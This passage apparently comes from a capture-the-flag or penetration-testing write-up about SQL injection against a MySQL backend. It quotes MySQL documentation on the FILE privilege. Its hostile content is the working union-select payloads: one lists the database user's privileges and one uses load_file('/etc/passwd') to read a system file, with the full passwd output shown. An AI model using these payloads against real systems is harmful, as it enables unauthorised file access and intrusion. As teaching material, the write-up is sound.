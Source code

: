 I could also see this manually:

```

injection> 3 union select group_concat(privilege_type),2 from information_schema.user_privileges
[id: FILE, name: 2]

```

`FILE` [gives the following](https://dev.mysql.com/doc/refman/5.7/en/privileges-provided.html#priv_file):

> ​ Affects the following operations and server behaviors:
>
> - ​ Enables reading and writing files on the server host using
>   the [`LOAD DATA`](https://dev.mysql.com/doc/refman/5.7/en/load-data.html) and [`SELECT ... INTO OUTFILE`](https://dev.mysql.com/doc/refman/5.7/en/select-into.html) statements and the
>   [`LOAD_FILE()`](https://dev.mysql.com/doc/refman/5.7/en/string-functions.html#function_load-file) function. A user who has the [`FILE privilege can read
>   any file on the server host that is either world-readable or readable
>   by the MySQL server. (This implies the user can read any file in any
>   database directory, because the server can access any of those files.)
> - ​ Enables creating new files in any directory where the MySQL
>   server has write access. This includes the server’s data directory
>   containing the files that implement the privilege tables.
> - ​ As of MySQL 5.7.17, enables use of the `DATA DIRECTORY`
>   or `INDEX DIRECTORY` table option for the [`CREATE TABLE`](https://dev.mysql.com/doc/refman/5.7/en/create-table.html) statement.
>
> As a security measure, the server does not overwrite exsting files.

MySQL can read files using the `LOAD_FILE()` function. It works:

```

injection> 3 union select load_file('/etc/passwd'),2 from information_schema.user_privileges
[id: root:*:0:0:Charlie &:/root:/bin/ksh
daemon:*:1:1:The devil himself:/root:/sbin/nologin
operator:*:2:5:System &:/operator:/sbin/nologin
bin:*:3:7:Binaries Commands and Source:/:/sbin/nologin
build:*:21:21:base and xenocara build:/var/empty:/bin/ksh
sshd:*:27:27:sshd privsep:/var/empty:/sbin/nologin
_portmap:*:28:28:portmap:/var/empty:/sbin/nologin
_identd:*:29:29:identd:/var/empty:/sbin/nologin
_rstatd:*:30:30:rpc.rstatd:/var/empty:/sbin/nologin
_rusersd:*:32:32:rpc.rusersd:/var/empty:/sbin/nologin
_fingerd:*:33:33:fingerd:/var/empty:/sbin/nologin
_x11:*:35:35:X Server:/var/empty:/sbin/nologin
_unwind:*:48:48:Unwind Daemon:/var/empty:/sbin/nologin
_switchd:*:49:49:Switch Daemon:/var/empty:/sbin/nologin
_traceroute:*:50:50:traceroute privdrop user:/var/empty:/sbin/nologin
_ping:*:51:51:ping privdrop user:/var/empty:/sbin/nologin
_unbound:*:53:53:Unbound Daemon:/var/unbound:/sbin/nologin
_dpb:*:54:54:dpb privsep:/var/empty:/sbin/nologin
_pbuild:*:55:55:dpb build user:/nonexistent:/sbin/nologin
_pfetch:*:56:56:dpb fetch user:/nonexistent:/sbin/nologin
_pkgfetch:*:57:57:pkg fetch user:/nonexistent:/sbin/nologin
_pkguntar:*:58:58:pkg untar user:/nonexistent:/sbin/nologin
_spamd:*:62:62:Spam Daemon:/var/empty:/sbin/nologin
www:*:67:67:HTTP Server:/var/www:/sbin/nologin
_isakmpd:*:68:68:isakmpd privsep:/var/empty:/sbin/nologin
_rpki-client:*:70:70:rpki-client user:/nonexistent:/sbin/nologin
_syslogd:*:73:73:Syslog Daemon:/var/empty:/sbin/nologin
_pflogd:*:74:74:pflogd privsep:/var/empty:/sbin/nologin
_bgpd:*:75:75:BGP Daemon:/var/empty:/sbin/nologin
_tcpdump:*:76:76:tcpdump privsep:/var/empty:/sbin/nologin
```
